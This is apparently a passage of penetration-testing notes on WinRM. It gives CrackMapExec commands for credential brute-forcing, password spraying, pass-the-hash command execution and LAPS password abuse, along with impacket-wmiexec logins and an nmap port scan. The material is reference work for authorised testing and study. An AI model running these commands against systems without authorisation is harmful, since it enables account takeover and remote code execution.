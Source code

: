     ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username_wordlist> -p `<password_wordlist>'
    ```
*   **Username + Password + CMD command execution:**

    ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username> -p `<password>' -x "whoami"
    ```
*   **Username + Hash + PS command execution:** CrackMapExec won't give you an interactive shell, but it will check if the creds are valid to access WinRM

    ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username> -H `<ntlm_hash> -X '$PSVersionTable'
    ```
*   **Password Spraying (without brute force):** By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.

    ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username_wordlist> -p `<password_wordlist>' --no-bruteforce
    ```
*   **Defeating LAPS:** Using CrackMapExec when LAPS installed on the domain. If LAPS is used inside the domain, it can be hard to use CrackMapExec to execute a command on every computer on the domain. Therefore, a new core option has been added `--laps`! If you have compromised an accout that can read LAPS password you can use CrackMapExec like this. If the default administrator name is not administrator add the user after the option `--laps name`.

    ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username> -p `<password>' --laps
    ```

#### \[\[Impacket]]

**\[\[Impacket-WMIExec]]**

*   **Connect via WMIExec:** If no password is provided, it will be prompted. Using parameter-k you can authenticate against Kerberos instead of NTLM.

    ```bash
    impacket-wmiexec <domain>/<username>:'<password>'@<target_ip>
    impacket-wmiexec -hashes LM:NT <username>@<target_ip>
    ```

## Penetration Testing Techniques

### External Reconnaissance

#### Port Scanning

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 5985
    ```
* **Description:** Identifies if the target service is running on the target by scanning target port.
